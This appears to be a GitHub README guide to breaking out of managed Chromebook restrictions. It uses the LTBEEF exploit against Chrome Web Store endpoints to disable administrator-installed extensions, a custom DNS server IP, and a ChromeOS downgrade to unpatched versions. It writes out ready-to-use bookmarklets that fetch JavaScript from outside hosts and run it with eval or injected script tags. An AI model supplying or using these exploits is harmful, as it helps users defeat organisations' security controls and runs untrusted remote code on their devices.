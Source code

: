 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

# Installation (LTBEEF)
There are several vesions of this exploit you can use, here are the 2 most common versions:

# Bookmarklets (LTBEEF)
To use a GUI, bookmark one of the below scripts:

Ingot
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI
`javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`
Compact Cow's UI (Dark)
`javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);`
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

# DNS servers (LTBEEF)
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
`158.101.114.159` (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.

# Downgrading
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.


# Requirements (DOWNGRADING)

A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
A personal computer with access to downloading extentions
A brain
Setup

Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
 2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board 3. Find and download the chrome version you want to your personal computer
# Instlation (DOWNGRADING)

Install Chromebook Recovery Utility onto your personal computer (found at https://chrome.google.com/webstore/detail/chromebook-recovery-     utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en)
Open the extention, and click on the settings button in to top right hand corner, click "use local image"
Select the recovery image you downloaded from chrome100
Plug in the USB you wish to use, and follow the prompts on the screen
On your chromebook, press esc+reload+power and follow the prompts
On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
Profit
